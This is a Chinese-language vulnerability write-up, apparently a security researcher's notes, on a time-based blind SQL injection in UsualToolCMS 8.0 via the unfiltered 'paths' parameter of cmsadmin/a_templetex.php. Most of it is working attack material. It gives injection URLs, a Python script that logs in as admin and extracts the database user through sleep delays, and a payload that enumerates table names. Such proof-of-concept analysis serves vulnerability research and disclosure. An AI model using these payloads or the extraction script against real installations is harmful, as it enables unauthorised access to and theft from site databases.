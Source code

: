### 0x01 漏洞环境

版本信息：UsualToolCMS-8.0-Release
 版本下载：http://www.a5xiazai.com/php/140604.html
 官网下载：https://cms.usualtool.com/down/UsualToolCMS-8.0-Release.zip

### 0x02 漏洞分析

在./cmsadmin/a_templetex.php文件第137行，paths变量没有过滤，136行从get处获取paths，没有任何过滤:
![1](UsualToolCMS-8.0-sql注⼊漏洞.assets/1.png)

当从get处获得的t等于open时就可以出发这个sql注入，在文件第129行:
![2](UsualToolCMS-8.0-sql注⼊漏洞.assets/2.png)

构造payload：

```
Copya_templetex.php?t=open&id=1&paths=templete/index' where id=1 and if(ascii(substring(user(),1,1))>0,sleep(5),1)--+
```

![3](UsualToolCMS-8.0-sql注⼊漏洞.assets/3.png)

由于是时间盲注，编写延迟注入脚本:

```
Copy# -*- coding:utf-8 -*-
import time
import requests
session = requests.session()
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0'}
img_url = 'http://192.168.8.108:8081/UsualToolCMS-8.0-Release/class/UsualToolCMS_Code.php?r=13720'
img_req = session.get(url=img_url,headers=headers).content
with open('pic.png','wb') as f:
    f.write(img_req)
code = input('请输入验证码：')
data = {
    'uuser':'admin',
    'upass':'admin',
    'ucode':code
}
payloads = list('root@localhostasfafsasf')
url = 'http://192.168.8.108:8081/UsualToolCMS-8.0-Release/cmsadmin/a_login.php?do=login'
response = session.post(url=url,headers=headers,data=data)
res_url_1 = "http://192.168.8.108:8081/UsualToolCMS-8.0-Release/cmsadmin/a_templetex.php?t=open&id=1&paths=templete/index' where id=1 and if(ascii(substring(user(),{},1))={},sleep(5),1)--+"
result = ''
for i in range(1,15):
    for payload in payloads:
        res_url_2 = res_url_1.format(str(i),ord(payload))
        start_time = time.time()
        response = session.get(url=res_url_2,headers=headers)
        if time.time() - start_time > 7:
            result = result + payload
            print(result)
            break
```



爆数据库表payload：![4](UsualToolCMS-8.0-sql注⼊漏洞.assets/4.png)

```
Copya_templetex.php?t=open&id=1&paths=templete/index' where id=1 and if(ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>0,sleep(5),1)--+
```

![5](UsualToolCMS-8.0-sql注⼊漏洞.assets/5.png)

\----------------------------------------------------------------------------